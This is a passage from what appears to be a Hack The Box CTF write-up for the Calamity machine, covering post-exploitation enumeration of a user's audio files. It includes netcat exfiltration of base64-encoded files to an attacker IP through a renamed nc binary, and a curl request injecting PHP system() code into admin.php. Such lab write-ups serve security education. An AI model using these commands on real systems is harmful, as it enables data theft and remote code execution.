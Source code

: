 ## Priv: www-data –> xalvas

### Enumeration

Also in xalvas’ home directory is a file called `recov.wav`. Recov sounds like
recovery, so it’s worth taking a look at (also, steg was _way_ more common in
early HTB days). There are two move audio files in the `alarmclocks` folder:

    
    
    calamity> ls -l /home/xalvas/alarm*
    total 5708
    -rw-r--r-- 1 root root 3196668 Jun 27  2017 rick.wav
    -rw-r--r-- 1 root root 2645839 Jun 27  2017 xouzouris.mp3
    

I’ll use a renamed copy of `nc` to exfil:

    
    
    calamity> cp /bin/nc /dev/shm/0xdfcat
    calamity> cat /home/xalvas/recov.wav | base64 | /dev/shm/0xdfcat 10.10.14.24 443
    

Back at Kali:

    
    
    root@kali# nc -lnvp 443 | base64 -d > recov.wav
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.27.
    Ncat: Connection from 10.10.10.27:47346.
    

I did the same for the other two files:

    
    
    calamity> cat /home/xalvas/alarmclocks/rick.wav | base64 | /dev/shm/0xdfcat 10.10.14.24 443
    calamity> cat /home/xalvas/alarmclocks/xouzouris.mp3 | base64 | /dev/shm/0xdfcat 10.10.14.24 443
    

If I wanted to do that without renaming `nc`, I could also just do it through
`curl` having PHP print the contents of the file:

    
    
    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode "html=<?php system(\"cat /home/xalvas/recov.wav\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/html>/ d' > recov-curl.wav
    
    root@kali# md5sum recov*
    a2c5f6ad4eee01f856348ec1e2972768  recov-curl.wav
    a2c5f6ad4eee01f856348ec1e2972768  recov.wav
    

### Audio Enumeration

I used `play` (from `apt install sox libsox-fmt-all`) to play the audio files
from the command line. The first file, `xouzouris.mp3` is something I didn’t
recognize, but [acrcloud.com](https://www.acrcloud.com/identify-songs-music-
recognition-online/upload/553da35f2ea5e410f48762d6347ea5b8#upload-div)
identifies it as De Luilaksmurf by De Smurfen:

